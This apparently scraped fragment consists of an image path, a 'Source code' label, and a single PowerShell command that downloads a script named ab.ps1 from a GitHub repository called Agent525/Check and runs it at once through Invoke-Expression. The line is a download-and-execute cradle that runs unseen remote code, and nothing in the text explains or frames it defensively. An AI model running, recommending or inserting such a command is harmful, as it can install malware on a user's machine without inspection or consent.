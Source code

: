 
iex (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/Agent525/Check/refs/heads/main/ab.ps1").Content
